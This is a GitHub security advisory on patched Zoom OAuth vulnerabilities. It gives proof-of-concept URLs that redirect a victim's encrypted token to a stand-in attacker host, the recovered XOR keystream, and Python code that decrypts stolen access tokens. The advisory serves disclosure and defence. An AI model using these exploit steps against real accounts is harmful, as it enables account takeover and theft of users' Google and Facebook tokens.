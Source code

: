 ```yaml
---
title: ' Zoom: Multiple OAuth vulnerabilities'
published: '2020-07-28T05:31:11Z'
severity: High
ghsa_id: GHSA-6r3h-49f8-wwph
cve_id: ''
weaknesses: []
products:
- ecosystem: ''
  package_name: zoom.us
  affected_versions: <2020.04.29
  patched_versions: 2020.07.24
cvss: null
credits:
- github_user_id: sirdarckcat
  name: Eduardo' Vela" <Nava> (sirdarckcat)
  avatar: https://avatars.githubusercontent.com/u/33089?s=40&v=4
- github_user_id: RenwaX23
  name: Renwa
  avatar: https://avatars.githubusercontent.com/u/13907591?s=40&v=4
---
```


### Summary

The endpoints `https://zoom.us/signin/term?token` and `https://zoom.us/google/oauth?token` were vulnerable to multiple security vulnerabilities. An attacker could use these vulnerabilities to steal access tokens on Android.

This advisory encompasses a security vulnerability caused by an open redirect in one endpoint that included an encrypted access token, as well as an additional crypto vulnerability in another endpoint that could be used to decrypt the encrypted access tokens.

### Severity

Calculated as **High** by Google ([source](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N/E:P/RL:O/RC:C)). The attacker needs to convince a victim to visit a malicious link on an Android phone. The attacker can then steal a token that allows them to login as the victim, and gain access to the victim's Zoom.us account, as well as access the victim's Facebook / Google access token.

This could allow an attacker to do anything the victim can do through the website, and for those users that had enabled the Google Calendar to Zoom integration, it would also allow the attacker to access private Google Calendar data.

### Proof of Concept

The attack could be performed by making the user visit the following URL:
```
https://accounts.google.com/o/oauth2/v2/auth?response_type=code&access_type=offline&client_id=849883241272-ed6lnodi1grnoomiuknqkq2rbvd2udku.apps.googleusercontent.com&scope=profile%20email&redirect_uri=https%3A%2F%2Fzoom.us%2Fgoogle%2Foauth&state=intent%3A%2F%2Fzoom.us%2Fgoogle%2Foauth?#Intent;scheme=https://evil.website/;end;
```

Which results in:
```
https://evil.website/zoom.us/google/oauth?&token=ENCRYPTED_TOKEN
```

The attacker then just takes `ENCRYPTED_TOKEN` and posts it here:
```
https://zoom.us/google/oauth?token=ENCRYPTED_TOKEN
```

Which then redirects to:
```
https://zoom.us/signin/term?token=ANOTHER_ENCRYPTED_TOKEN
```

At this point, `ANOTHER_ENCRYPTED_TOKEN` can be decrypted by XORing it with:
```
8da41d47d9989e0b1a2ae4a58029b732c64976ec8d1e9b81e2112ecac33dfc7f8563403302639656822252d21f70b8b046d5437ebcc44d93d2f355bd4664398d0b28f743bcf9376465e1c2964f9e04225ca115f5dda85d2f91ff350c4c1d2ba052b7a03ff5b71babf301bafe37bb6b1aa45a7588282f5b562c53d8316fd29e9b97d203575cba4aadd22e8a5818062b0beed7141ef34e177f8ed4a1e74936e97037bafdb9ce9b37be07d816
```

Using:
```python
def decrypt(unknown):
    unknown = base64.urlsafe_b64decode(unknown)
    return "".join([chr(ord(unknown[c]) ^ ord(key[c])) for c in range(min(len(unknown),len(key)))])
```

This would then leak the Facebook or Google access token to the attacker, and can also be used to impersonate the user on Zoom.us.

### Analysis

The token leak only works against Chrome on Android users. The attack could be performed by tricking users into visiting the following URL:
```
https://accounts.google.com/o/oauth2/v2/auth?response_type=code&access_type=offline&client_id=849883241272-ed6lnodi1grnoomiuknqkq2rbvd2udku.apps.googleusercontent.com&scope=profile%20email&redirect_uri=https%3A%2F%2Fzoom.us%2Fgoogle%2Foauth&state=intent%3A%2F%2Fzoom.us%2Fgoogle%2Foauth?#Intent;scheme=https://evil.website/;end;
```

The victim would then land on:
```
https://zoom.us/google/oauth?state=intent%3A%2F%2Fzoom.us%2Fgoogle%2Foauth%3F&code=SECRET&scope=email+profile+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email&authuser=0&prompt=none#Intent;scheme=https://evil.website/;end;
```

And subsequently on:
```
intent://zoom.us/google/oauth?&token=ENCRYPTED_TOKEN#Intent;scheme=https://evil.website/;end;
```

And finally:
```
https://evil.website/zoom.us/google/oauth?&token=ENCRYPTED_TOKEN
```

The flow using Facebook was also affected. The behavior presented using the `intent://` URL was [discovered by Renwa](https://twitter.com/RenwaX23/status/1255481313508950017). The documentation for this feature is described in the documentation of [Android intents for Chrome](https://developer.chrome.com/multidevice/android/intents).

It seems like the cipher used PKCS7 padding, since the following error was visible in the UI when sending a malformed token:
![image](https://user-images.githubusercontent.com/33089/88423865-cc319980-cdec-11ea-912b-33793672949d.png)

The endpoint didn't seem to use CBC, so decrypting the token wasn't possible through this padding oracle. However, the endpoint `zoom.us/google/oauth?token` redirected the user to `zoom.us/signin/term?token=ANOTHER_ENCRYPTED_TOKEN`, and in this case, the token was using a static stream cipher, or in other words, it was reusing a One-Time Pad (OTP).

Usually in order to break an OTP used more than once, one just XORs the ciphertext with a known plaintext, which returns the cipher stream, however, since in this case the attacker doesn't know their own access token, one can't get it this way. Instead, since we know that the plaintext has a limited alphabet (access tokens are encoded in base64 or base32), one can decode the token character by character by a process of elimination.

For example, if we have 4 tokens, which have at the Nth character the following values:
 - `encrypted_token1[n] = "b"` (which is `stream_cipher[n] ^ access_token1[n]`)
 - `encrypted_token2[n] = "/"` (which is `stream_cipher[n] ^ access_token2[n]`)
 - `encrypted_token3[n] = "F"` (which is `stream_cipher[n] ^ access_token3[n]`)
 - `encrypted_token4[n] = "V"` (which is `stream_cipher[n] ^ access_token4[n]`)

We can deduce the value of `stream_cipher[n]` the following way:
 - `t1t2 = chr(ord("b") ^ ord("/")) = "M" = access_token1[n] ^ access_token2[n]`
 - `t1t3 = chr(ord("b") ^ ord("F")) = "$" = access_token1[n] ^ access_token3[n]`
 - `t1t4 = chr(ord("b") ^ ord("V")) = "4" = access_token1[n] ^ access_token4[n]`

We know that `M` can only be the result of:
 - `chr(ord("y") ^ ord("4"))`
 - `chr(ord("5") ^ ord("x"))`
 - `chr(ord("t") ^ ord("9"))`
 - `chr(ord("7") ^ ord("z"))`
 - `chr(ord("8") ^ ord("u"))`

We can do this calculation for all characters in the allowed alphabet with the following code:
```python
import base64
options = {}
for c in range(0,255):
  for d in range(0,255):
    c_e = base64.urlsafe_b64encode(chr(c))[0]
    d_e = base64.urlsafe_b64encode(chr(d))[0]
    res = chr(ord(c_e)^ord(d_e))
    if res not in options:
      options[res] = {}
    options[res][c_e] = d_e
    options[res][d_e] = c_e
```

Once we have this, we can obtain the value of `access_token1[n]` and `stream_cipher[n]` with:
```python
list(set(options[t1t2]) & set(options[t1t3]) & set(options[t1t4])) == ["u"] # access_token1[n]
chr(ord("u")^ord("b")) == "\x17" # stream_cipher[n]
```

By repeating this for all positions of the encrypted access token, one can reverse the value of the stream cipher, and decrypt the access token. The "One-Time" pad was:
```
8da41d47d9989e0b1a2ae4a58029b732c64976ec8d1e9b81e2112ecac33dfc7f8563403302639656822252d21f70b8b046d5437ebcc44d93d2f355bd4664398d0b28f743bcf9376465e1c2964f9e04225ca115f5dda85d2f91ff350c4c1d2ba052b7a03ff5b71babf301bafe37bb6b1aa45a7588282f5b562c53d8316fd29e9b97d203575cba4aadd22e8a5818062b0beed7141ef34e177f8ed4a1e74936e97037bafdb9ce9b37be07d816
```